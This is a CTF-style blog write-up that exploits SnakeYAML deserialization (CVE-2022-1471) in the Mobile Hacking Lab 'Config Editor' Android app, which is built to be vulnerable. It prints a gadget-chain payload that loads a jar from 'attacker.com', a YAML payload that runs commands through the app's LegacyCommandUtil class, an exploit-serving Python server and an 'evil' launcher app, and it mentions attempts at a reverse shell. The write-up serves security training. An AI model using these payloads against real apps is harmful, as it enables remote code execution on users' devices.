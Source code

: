```yaml
---
title:  "Mobile Hacking Lab Config Editor Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Config Editor](https://www.mobilehackinglab.com/course/lab-config-editor-rce) challenge from Mobile Hacking Lab. 

## Static Analysis

When we open the app in emulator, it opens a page with "load" and "save" buttons and a text input area. When we press the load button, it opens the file manager for us to select a file and we can load example.yml file that created by app. Also we can write something to text area and save it with save button. Before saving file, it recommends a file name with yml extension again. Let's open it with jadx to understand the app.

![](/assets/images_mhl_configeditor/manifest.png)

When we examine the manifest file, we see that an intent filter is defined for MainActivity. To properly trigger this activity we need to send intent with http/https or file scheme and VIEW action. Also, the type of data we will send with intent is expected to be yaml.
```bash
# Sample intent
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://evil.com"
```
But we need to know what happened when this activity triggered. To undestand this, lets analyze MainActivity

![](/assets/images_mhl_configeditor/mainactivity.png)
 
Inside the onCreate function, handleIntent method called after setting the view of activity.

### handleIntent Function

![](/assets/images_mhl_configeditor/handleIntent.png)

handleIntent function handle the coming intent and after checking the action and uri, sends the uri to CopyFileFromUri function. After copying file from uri, it loads the yaml file with loadYaml function. During download and save processes getLastPathSegment function leads to file write with directory traversal vulnerability but this is not the case we will look into in this post. I explained that vulnerability on my [previous post](https://sh4d0wlesss.github.io/writeup/Mobile-Hacking-Lab-Document-Viewer-Challenge-Writeup/). This challenge have same vulnerability too. If you dont trust me go and test it :D

### loadYaml Function

![](/assets/images_mhl_configeditor/loadYaml.png)

loadYaml function gets the file from given uri and loads it with yaml.load function. This load function comes from snakeyaml(org.yaml.snakeyaml) package. This is a popular java library to parse yaml files. Some tips were given on the challenge page, and these tips mentioned finding a vulnerability in a 3rd party library. Since there is no native library file in the apk, the vulnerable library may be the snakeyaml library. Also, about a week before I wrote this article, I watched a [video prepared by mdisec](https://www.youtube.com/watch?v=IPrRccHlgLM) on YouTube, and while trying to solve this challenge, I remembered that the snakeyaml library was also mentioned in that video. In the video, a deserialization vulnerability(`CVE-2022-1471`) in the snakeyaml library is mentioned and the exploitation stages are shown in practice.

#### CVE-2022-1471

As far as I understand from the blog posts I read while researching this vulnerability, during the serialization we can specify the object inside the yaml file and snakeyaml will use this class name for creating object from same class during deserialization(also snakeyaml add that classnames when yaml.dump fucntion called for serialization). For example, we can specify the object type as car inside the yaml:
```yaml
car: 
  !!sample.car
  brand: kia
  model: rio
  year: 2004
  type: stationwagon
```
We can write the any class(must be in classpath) we want in the yaml file and the vulnerability is revealed here. Here is the example gadget chain shared as poc for this vuln:
```yaml
#ref: https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471

person: !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL [http://attacker.com/malicious-code.jar]
    ]]
]
```
With this chain (If the attacker can control the content of the yaml file) attacker can get remote code execution. I will not explain the details of the attack in this article. If you want to examine the detailed stages of this attack, [I highly recommend this blog post.](https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471) I tried this payload with app but it gives error because ScriptEngineManager class not found. [After some research](https://stackoverflow.com/questions/46320972/engine-eval-returns-null-in-android-studio) i saw that ScriptEngineManager is not available on Android by default. Instead of that everyone recommend `rhino` but im not a Android developer and i didnt understand anything that i read about that topic :D

But we need to get a remote code execution somehow. As you can see in the first picture I added at the beginning of the article, there is another class called LegacyCommandUtil in the application.

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```
Inside the constructor of this class, a "command" executed with runtime exec function. We can use this class to exploit this vulnerability because we can access this class. Here is the sample yaml file:
```yaml
cartcurt: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.configeditor/poc.txt"]
```
If this payload works, poc.txt file will be created inside the application directory. For serving this file i used my hacky server code from previous post :
```py
#proudly stolen from : https://stackoverflow.com/questions/46105356/serve-a-file-from-pythons-http-server-correct-response-with-a-file
from http.server import BaseHTTPRequestHandler, HTTPServer
class MyHackyServer(BaseHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        exploit_file = open('hacky.yml', 'rb')
        self.wfile.write(exploit_file.read())
        self.end_headers()


myServer = HTTPServer(('localhost', 1234), MyHackyServer)
myServer.serve_forever()
```
and the adb command for sending proper intent:
```bash
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.action.intent.VIEW -d "http://10.0.3.2:1234"
# 10.0.3.2 is the address of localhost of host machine for genymotion, if you are using Android Studio emulators, this ip will be 10.0.2.2 for you.
```
Here is the result(video):

[![](https://img.youtube.com/vi/vhk_WS9Da_0/0.jpg)](https://youtu.be/vhk_WS9Da_0)

It works🥳 If you want to make same thing with evil application, here is my sample code:
```java
package com.example.exploitconfigeditor;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Uri uri = Uri.parse("http://10.0.3.2:1234");
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setClassName("com.mobilehackinglab.configeditor","com.mobilehackinglab.configeditor.MainActivity");
        intent.setData(uri);
        startActivity(intent);
    }
}
```
And poc video:

[![](https://img.youtube.com/vi/YGbHG2m4clM/0.jpg)](https://youtu.be/YGbHG2m4clM)

We can run code remotely with small yaml file :)

Sad note: 😔
- I have tried lots of payloads to get reverse shell but i failed. [As mentioned here](https://stackoverflow.com/questions/25199307/unable-using-runtime-exec-to-execute-shell-command-echo-in-android-java-code), exec function does not execute [shell builtins](https://www.networkworld.com/article/967046/how-to-identify-shell-builtins-aliases-and-executable-files-on-linux-systems.html), it executes executables and for getting reverse shell i need to pass string array to constructor. Also i tried payloads with ${IFS} but they didn't work. If you can create working reverse shell payload please dm me on twitter or linkedin👀
- In this example we have a class that executes commands but in real world scenario i dont know how i can get remote code execution on android app with this vulnerability. If you can get rce on this challenge with another method, please dm me 👀

Thanks for reading! See you in next writeups :)
